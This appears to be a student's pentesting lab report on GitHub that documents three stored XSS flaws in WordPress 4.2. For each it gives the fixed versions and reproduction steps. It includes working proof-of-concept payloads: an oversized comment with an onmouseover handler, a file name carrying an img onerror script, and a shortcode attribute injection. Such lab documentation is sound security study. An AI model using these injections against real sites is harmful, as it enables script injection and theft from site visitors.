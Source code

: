 # Project 7 - WordPress Pentesting

Time spent: **2** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: 
    - <img src="CommentXSS.gif" width="800">
  - [ ] Steps to recreate: 
    - Make a comment on a page that has at least 64KB of content, for example: 
    
    - `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
    
  - [ ] Affected source code:
    - [Not the actual source code, but describes the vulnerability](https://klikki.fi/adv/wordpress2.html) 
2. WordPress 3.3-4.7.4 - Large File Upload Error XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
    - <img src="LargeFileXSS.gif" width="800">
  - [ ] Steps to recreate: 
    - Upload a large file, atleast 100MB in size that has the desired payload as the file name, such as:
    - `Somefile<img src=x onerror=alert(“Vulnerability!”)>.png`.
  - [ ] Affected source code:
    - [Github Link](https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6)
3. WordPress < 4.2.3 Stored XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
    - <img src="PageXSS.gif" width="800">
  - [ ] Steps to recreate: 
    - Requires you to be able to create pages, create a link like: 
    - `<a href=“[caption code=“>]</a><a title=“ onmouseover=alert(‘test’) “>link</a>`
    - Wordpress shortcode processing will turn this into 
    - `<a href="</a><a title=" onmouseover=alert('test')  ">link</a>`.
  - [ ] Affected source code:
    - [Not the actual source code, but describes the vulnerability](https://klikki.fi/adv/wordpress3.html)
